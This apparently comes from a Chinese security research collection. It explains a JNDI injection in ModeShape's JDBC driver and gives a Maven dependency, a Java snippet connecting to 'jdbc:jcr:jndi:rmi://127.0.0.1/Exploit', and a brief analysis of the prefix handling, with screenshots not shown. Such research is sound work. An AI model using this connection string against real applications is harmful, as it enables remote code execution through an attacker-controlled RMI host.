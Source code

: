 

ModeShape是一个分层的、事务性的、一致的数据存储，支持查询、全文搜索、事件、版本管理、引用以及灵活和动态的模式。它非常快速、高度可用、极具可扩展性，而且它是100%开源的，用Java编写。客户端使用（JSR-283）标准的内容库（又称JCR）的Java API或ModeShape的REST API，并可以通过JDBC和SQL查询内容。

ModeShape是JCR(Java Content Repository)的一个实现，使用JCR API来访问其他系统的数据，如文件系统、Subversion、JDBC元数据。

## 利用方法

依赖
```xml
<dependency>
    <groupId>org.modeshape</groupId>
    <artifactId>modeshape-jdbc</artifactId>
    <version>5.4.1.Final</version>
</dependency>
```



```java
Class.forName("org.modeshape.jdbc.LocalJcrDriver");
DriverManager.getConnection("jdbc:jcr:jndi:rmi://127.0.0.1/Exploit");
```

## 简单分析

在org.modeshape.jdbc.delegate.LocalRepositoryDelegate#initRepository中

当调用this.getConnectionInfo时

![](img/1.png)

这里会去除前缀，之后很明显的jndi特征不必多说了

![](img/2.png)![](img/3.png)
